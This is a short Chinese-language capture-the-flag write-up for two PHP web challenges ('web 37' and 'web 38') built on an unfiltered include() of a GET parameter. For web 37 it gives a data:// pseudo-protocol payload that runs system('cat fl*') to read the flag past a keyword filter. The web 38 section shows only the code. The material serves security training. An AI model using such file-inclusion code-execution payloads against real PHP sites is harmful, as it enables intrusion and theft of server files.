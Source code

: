 

## web 37

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤了flag ，又是 include 文件包含

利用伪协议读flag

```
data://，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行
```

flag.php 可以用通配符绕过

payload:
?c=data://text/plain,<?php system("cat fl*") ?>

查看源码即可得到flag

## web 38

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
